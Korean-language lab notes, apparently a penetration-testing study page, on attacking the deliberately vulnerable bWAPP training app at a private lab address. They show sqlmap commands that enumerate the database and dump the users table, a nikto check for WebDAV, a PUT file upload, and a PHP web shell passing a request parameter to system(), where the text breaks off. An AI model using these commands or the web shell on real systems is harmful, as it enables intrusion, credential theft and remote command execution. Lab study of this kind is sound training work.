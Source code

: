 ### POST/Select

* 상수값이므로 앞에 싱글쿼터를 넣지 않는다   
` sudo sqlmap -u "http://192.168.113.130/bWAPP/sqli_13.php" --cookie="PHPSESSID=0f7eb40b0e4fe01737238d80ab04fe91; security_level=1" --data "movie=1&action=go" --dbs `
    * 모든 파라미터로 sql injection 수행    
    * -p 옵션으로 특정 파라미터에 대해 수행 가능
    * 취약점이 잘 안나오면 risk2 level2로 높일 수 있다
* 로그파일 위치   
` [20:42:15] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.113.130' `
* 테이블 정보 확인   
` sudo sqlmap -u "http://192.168.113.130/bWAPP/sqli_13.php" --cookie="PHPSESSID=0f7eb40b0e4fe01737238d80ab04fe91; security_level=1" --data "movie=1&action=go" -D bWAPP --tables `
* 컬럼 정보 확인   
` sudo sqlmap -u "http://192.168.113.130/bWAPP/sqli_13.php" --cookie="PHPSESSID=0f7eb40b0e4fe01737238d80ab04fe91; security_level=1" --data "movie=1&action=go" -D bWAPP -T users --columns `
* 데이터 추출   
` sudo sqlmap -u "http://192.168.113.130/bWAPP/sqli_13.php" --cookie="PHPSESSID=0f7eb40b0e4fe01737238d80ab04fe91; security_level=1" --data "movie=1&action=go" -D bWAPP -T users --dump ` 
    * 패스워드 같은 건 Kali에 있는 도구로 알아서 크랙 해줌

### REST API
* PUT 메소드에 대해서 SQL Injection을 많이 사용 함
    * 자동화 도구로 마이데이터 같은 API에서 PUT Injection을 수행하면 문제가 발생
* GET, PUT, DELETE 허용 취약점 확인하기
    * sudo nikto -h http://192.168.113.130/webdav


### PUT 취약점 & Webdav 취약점
http://192.168.113.130/webdav/
1. PUT webdav/test.files로 변경
2. 맨 밑에 줄에 test.files 내용 아무거나 작성
3. 201 CREATED가 나오고 test.files 업로드 됨   


### Webdav 취약점 - Webshell 올리기
1. ` locate webshell `   
2. ` cat /usr/share/webshells/php/simple-backdoor.php ` -> cmd를 실행하는 웹쉘   
3. 버프스위트에서 ` GET /webdav/shell.php HTTP/1.1 `로 수정 
4. 웹쉘 php 코드 삽입
    ```
    <?php

    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }
